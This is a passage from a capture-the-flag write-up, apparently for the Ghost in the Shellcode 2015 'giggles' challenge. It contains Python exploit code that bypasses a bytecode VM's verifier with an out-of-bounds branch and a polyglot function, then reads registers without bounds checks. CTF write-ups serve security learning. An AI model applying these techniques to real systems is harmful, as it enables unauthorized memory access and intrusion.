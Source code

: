     785 · X + 5 = 5 + 26 · Y

The solution with the smallest positive *X* is *X = 26* and *Y = 785*.  So we
have to add 24 functions as padding and we need to jump to instruction 785.
This is the setup code that makes a connection and adds all the boilerplate
functions:

{% highlight python %}
def preamble():
    #sockfd = socket.create_connection(('localhost', 1423))
    sockfd = socket.create_connection(('giggles.2015.ghostintheshellcode.com', 1423))

    ins_size = 2 + 3*8
    func_size = 2 + 2 + 1 + 30*ins_size
    jmp_target = func_size

    # add the initial, verified function with out of bounds jump
    operations = ""
    for _ in xrange(30):
        operations += createOperation(OP_BR, 30, 0, 0)
    trampoline_func = createFunction(30, 0, operations)
    addFunction(sockfd, trampoline_func)
    verifyFunction(sockfd, 0)

    # add polyglot function
    s = struct.pack("<HQ", 1, jmp_target) + "A"*5
    num_ops, num_args, verified, opcode, op1 = struct.unpack("<HHBHQ", s)
    assert num_ops == OP_BR
    assert verified == 0

    polyglot_func = createFunction(num_ops, num_args, createOperation(opcode, op1, 0, 0))
    addFunction(sockfd, polyglot_func)

    # padding
    for _ in xrange(ins_size - 2):
        addFunction(sockfd, createFunction(1,0,createOperation(0,0,0,0)))

    return sockfd
{% endhighlight %}

The function we add *after this* is the one that is going to get called eventually
if we call the *first* function. Now we can run arbitrary bytecode! E.g., here
is a function that reads the `w`th register value, without bounds checking:

{% highlight python %}
def read_relative(w):
    sockfd = preamble()
    operations = createOperation(OP_OUT, w+1, 0, 0)
    operations += createOperation(OP_OUT, w, 0, 0)
    addFunction(sockfd, createFunction(2, 0, operations))
    s = runFunction(sockfd, 0, [])
    return int("".join(s.split()), 16)
{% endhighlight %}
